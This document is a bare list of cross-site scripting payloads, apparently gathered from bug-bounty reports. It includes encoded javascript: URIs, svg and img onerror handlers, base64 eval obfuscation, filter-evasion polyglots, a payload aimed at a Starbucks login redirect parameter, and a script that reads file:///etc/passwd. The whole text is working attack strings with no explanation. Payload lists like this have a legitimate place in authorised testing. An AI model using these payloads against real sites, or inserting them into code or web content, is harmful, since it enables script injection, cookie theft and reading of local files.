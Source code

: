 "><img src='https://14.rs'>
4"><a fooooooooooooooooooooooooooooooooo href=JaVAScript%26colon%3Bprompt%26lpar%3B1%26rpar%3B%>
<a+id="a"href=javascript%26colon;alert%26lpar;1%26rpar;+id="a" style=width:100%25;height:100%25;position:fixed;left:0;top:0 x>Click me plz</a>
%60%2balert/**/(1)%2b%60
abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e
%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A 
"><b onbeforescriptexecute=prompt(document.domain)>
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529 Login
<svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>
<script>alert('123')</script>
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
<script>alert(XSS)</script>

/on<script>load=prompt(document.domain);>”/><svg
[code]javascript://%0dalert%28document.cookie%29[/code]
/on<script>load=prompt(document.domain);>

javascript:alert(1)
<a href="javascript:alert('xss')">Click me!</a>
[Click me too!](javascript:alert%28"xss"%29)
[Click me too!](javascript:alert("xss"))

javascript:alert('1')

javascript:alert("1")

<script>document.alert('XSS');</script>

“><svg/onload=alert(xss)>”@x.y

"><IFRAME SRC="javascript:alert("XSS");"></IFRAME>

"><img src=x onerror javascript=alert(1337)">.jpg

"><img src=x onerror=alert(document.domain)>
"/><svg/onload=prompt(document.domain)>
--></script><script>alert(document.domain);//
"><img src=x onerror=window.open('https://www.hackerone.com/');>
<img src="a" onerror='eval(atob("cHJvbXB0KDEpOw=="))'

#<img src=x onerror=alert(document.domain)>
#<img src=x onerror=alert('XSS')>

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

>"'
'';!--"<'XSS'>=&{()}
'';!--"<script>alert(0);</script>=&{()}
'';!--"<script>alert(0);</script>=&{(alert(1))}
`><script>alert(0)</script>
<script>a=eval;b=alert;a(b(/i/.source));</script>
<code onmouseover=a=eval;b=alert;a(b(/g/.source));>HI</code>

